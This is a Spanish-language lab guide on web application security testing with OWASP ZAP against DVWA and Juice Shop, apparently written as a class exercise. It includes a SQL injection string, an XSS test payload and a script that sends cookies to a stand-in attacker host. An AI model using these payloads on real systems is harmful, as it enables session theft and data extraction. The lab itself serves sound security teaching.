







# Objetivos de Aprendizaje

Al finalizar esta práctica, el estudiante será capaz de:

- Comprender los fundamentos de seguridad en aplicaciones web.
- Usar OWASP ZAP para identificar y explotar vulnerabilidades en aplicaciones inseguras.
- Configurar entornos de pruebas con Ubuntu Server/Desktop y Kali Linux.
- Detectar y explotar vulnerabilidades como SQL Injection, XSS, e inyección de código JavaScript.
- Analizar riesgos como robo de cookies mediante scripts maliciosos.
-  Elaborar un reporte técnico con hallazgos y recomendaciones.

# Requisitos previos

- Conocimientos básicos de redes y aplicaciones web
- Manejo básico de Kali Linux, Ubuntu y entornos virtuales (VirtualBox)
- Conocimientos sobre OWASP y los ataques comunes de seguridad web

# Topología de prueba

- Ubuntu Server: aloja DVWA y/o OWASP Juice Shop
- Ubuntu Desktop o Kali Linux: utilizado por los estudiantes para ejecutar OWASP ZAP y lanzar ataques
- Aplicaciones vulnerables:
    - DVWA (Damn Vulnerable Web Application)
    - OWASP Juice Shop
    - scanme.nmap.org (solo escaneo pasivo con respeto a su política de uso)

# Marco Teórico

## OWASP y las aplicaciones web inseguras

El Open Web Application Security Project (OWASP) proporciona guías, herramientas y proyectos enfocados en la mejora de la seguridad de software. Entre sus recursos se encuentran herramientas como OWASP ZAP, así como aplicaciones intencionalmente vulnerables como DVWA y Juice Shop.

## Principales vulnerabilidades web

Según el OWASP Top 10, las vulnerabilidades más comunes incluyen:

- A1: SQL Injection: Inyección de código SQL malicioso para manipular bases de datos.
- A7: Cross-Site Scripting (XSS): Inyección de scripts en sitios web para ejecutar en el navegador de otro usuario.
- Inyección de código JavaScript: Manipulación del DOM para obtener acceso a cookies, sesiones o redirigir a páginas maliciosas.

## OWASP ZAP

OWASP ZAP (Zed Attack Proxy) es una herramienta open source para realizar pruebas de penetración en aplicaciones web. Permite el análisis pasivo, escaneo activo, y explotación de vulnerabilidades.

# Desarrollo de la Práctica

## Configuración del entorno

1. Iniciar las máquinas virtuales:
    - Ubuntu Server: donde esté instalado DVWA o Juice Shop
    - Ubuntu Desktop/Kali: con OWASP ZAP preinstalado
2. Comprobar conectividad (ping entre VM)



3. En Ubuntu Server:
    - Configurar DVWA: `sudo apt install apache2 php mariadb-server`
    - Clonar DVWA desde GitHub: `git clone https://github.com/digininja/DVWA.git`



Para el repositorio de DVWA, se utilizó Docker para un mejor manejo de contenedores, además de una conexión directa y más precisa de las vulnerabilidades:

```sh
# Descarga de imagen
docker pull bkimminich/juice-shop:snapshot

# Ejecución de Contenedor
docker run --rm -p 3000:3000 bkimminich/juice-shop

```

## Exploración con OWASP ZAP

1. Abrir OWASP ZAP en Kali/Ubuntu Desktop
2. Configurar el navegador para que use OWASP ZAP como proxy (127.0.0.1:8080)
3. Acceder a DVWA desde el navegador (por ejemplo, http://192.168.56.101/dvwa)
4. Explorar los módulos mientras OWASP ZAP intercepta el tráfico





## Detección y explotación de vulnerabilidades

### SQL Injection

- En DVWA, ir a SQL Injection
- Probar con: ' OR 1=1 -- 
- Analizar respuesta y datos extraídos (e.g., usuarios, contraseñas)
- Revisar la alerta generada por OWASP ZAP



### Cross-Site Scripting (XSS)

- En DVWA, ir a XSS (Reflected)
- Inyectar: `<script>alert('XSS')</script>`
- Verificar ejecución del script
- Explique cómo puede modificarse el script para robar cookies:

```html
<script>
    document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>
```



### Inyección de código JavaScript

- Explorar inyecciones en campos de Juice Shop (e.g., nombre de usuario, comentarios)
- Usar ZAP para detectar vulnerabilidades persistentes
- Demostrar cómo un JS malicioso puede enviar información confidencial a otro servidor

## Reporte de hallazgos con OWASP ZAP

1. Generar reporte automático desde ZAP:
    - Report > Generate HTML Report
2. En el reporte, identificar y clasificar:
    - Tipo de vulnerabilidad
    - Nivel de severidad
    - URL afectada
    - Recomendación de mitigación



# Conclusiones

- OWASP ZAP es una herramienta potente para realizar análisis de seguridad en aplicaciones web sin costo.
- Aplicaciones como DVWA y Juice Shop permiten experimentar en un entorno seguro con vulnerabilidades reales.
- Vulnerabilidades como SQL Injection y XSS pueden tener impactos severos, incluyendo pérdida de datos o robo de sesiones.
- Es esencial que los desarrolladores conozcan estas amenazas para prevenirlas desde la fase de diseño del software.
